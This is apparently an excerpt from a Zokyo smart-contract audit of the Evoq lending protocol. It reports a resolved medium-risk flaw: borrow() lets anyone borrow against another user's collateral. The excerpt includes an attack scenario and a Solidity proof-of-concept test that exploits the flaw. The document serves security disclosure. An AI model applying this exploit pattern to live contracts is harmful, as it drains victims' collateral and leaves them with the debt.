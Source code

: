 **Auditors**

[Zokyo](https://x.com/zokyo_io)

# Findings

## Medium Risk

### Unrestricted “On-Behalf” Borrowing

**Severity**: Medium

**Status**: Resolved

**Description**

Evoq.sol → borrow() / internal call _borrow()
PositionsManager.sol → borrowLogic()
These functions allow specifying arbitrary _borrower and _receiver addresses without verifying that msg.sender is actually authorized to borrow on behalf of _borrower. As a result, an attacker can borrow against another user’s collateral, sending the borrowed tokens to themselves.

**Scenario:**

The attacker sees that User A (victim) has a large collateral.
Attacker calls borrow(...) with _borrower = User A and _receiver = Attacker.
Protocol sees User A’s collateral, deems the borrow safe, and transfers tokens to the attacker.
User A is left with the borrowed debt and no tokens.

**PoC: **

```solidity
function testBorrow2Attack() public {
       uint256 amount = 10_000 ether;


       address bob = address(0x1234);
       address alice = address(0xdeff);
       console.log("Bob address:", bob);
       console.log("Alice address:", alice);
       deal(usdc, address(alice), INITIAL_BALANCE * WAD);
       uint256 aliceBalance = ERC20(usdc).balanceOf(address(alice));
       console.log(aliceBalance);
       vm.startPrank(alice);
       ERC20(usdc).approve(address(evoq), 2 * amount);
       evoq.supply(vUsdc, 2 * amount);


       vm.startPrank(bob);


       evoq.borrow(vUsdt, amount, alice, bob);
   }
```
In other words, Alice can supply funds to the protocol, and Bob can borrow funds on behalf of her(bob need not put any collateral into the protocol!). This will also mean that Alice's debt position increases instead of Bob.
